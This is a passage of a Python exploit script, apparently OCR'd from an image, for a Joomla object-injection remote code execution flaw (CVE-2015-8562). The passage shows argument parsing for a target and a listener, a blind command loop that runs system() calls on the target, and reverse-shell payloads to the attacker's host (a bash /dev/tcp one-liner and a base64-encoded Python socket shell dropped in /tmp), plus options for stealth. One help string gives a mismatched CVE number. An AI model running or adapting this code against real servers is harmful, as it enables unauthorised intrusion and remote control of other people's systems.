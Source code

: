         return exploit_template


    def main():
        parser = argparse.ArgumentParser(prog='joomla-cve-2015-8562.py', description='\033[1;37;10mJoomla Object Injection RCE CVE-2015-8652')
        parser.add_argument('-t', dest='RHOST', required=True, help='\033[1;37;10mRemote Target Joomla Server (http://<target ip>)')
        parser.add_argument('-l', dest='LHOST', help='\033[1;37;10mLocal IP for Reverse Shell')
        parser.add_argument('-p', dest='LPORT', help='\033[1;37;10mLocal Port for Reverse Shell')
        parser.add_argument('--cmd', dest='cmd', action='store_true', help='\033[1;37;10mDrop into blind RCE')
        parser.add_argument('--u', dest='method', action='store_true', help='\033[1;37;10mSwitch from X-Forwarded-For to User-Agent (less stealthy)')
        parser.add_argument('--b', dest='bash', action='store_true', help='\033[1;37;10mSwitch from Python reverse shell to Bash')
        parser.add_argument('--proxy', dest='proxy', default='None', help='\033[1;37;10mIP of web proxy to go through (http://127.0.0.1:8080)')
        args = parser.parse_args()
        
        if args.proxy is not None:
            proxyDict = { "http"  : args.proxy, "https" : args.proxy }
        else:
            proxyDict = {}
        if args.cmd:
            print "\033[1;37;10m[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: {}".format(args.RHOST)
            print "\033[1;32;10m[+] Dropping into shell-like environment to perform blind RCE"
            while True:
                command = raw_input('\033[1;37;10m$ ')
                cmd_str = "system('{}');".format(command)
                pl = generate_payload(cmd_str)
                print get_url(args.RHOST, pl, args.method, proxyDict)

        # Spawn Reverse Shell using Netcat listener & Python shell on victim
        elif args.LPORT and args.LPORT:
            shell_name = id_generator()
            connection = "'{}', {}".format(args.LHOST, args.LPORT)
            
            if args.bash == True :
                comm = "bash"
                shell_name = shell_name+".sh"
                # pentestmonkey's Bash reverse shell one-liner:
                str_shell = 'bash -i >& /dev/tcp/{}/{} 0>&1'.format(args.LHOST, args.LPORT)
                payload = '''echo "'''+str_shell+'''" > /tmp/'''+shell_name+''''''
            else :
                comm = "python"
                shell_name = shell_name+".py"
                # pentestmonkey's Python reverse shell one-liner:
                str_shell = '''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('''+connection+'''));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'''
                # Base64 encoded the Python reverse shell as some chars were messing up in the exploit
                encoded_comm = base64.b64encode(str_shell)
                payload = "echo {} | base64 -d > /tmp/{}".format(encoded_comm, shell_name)
            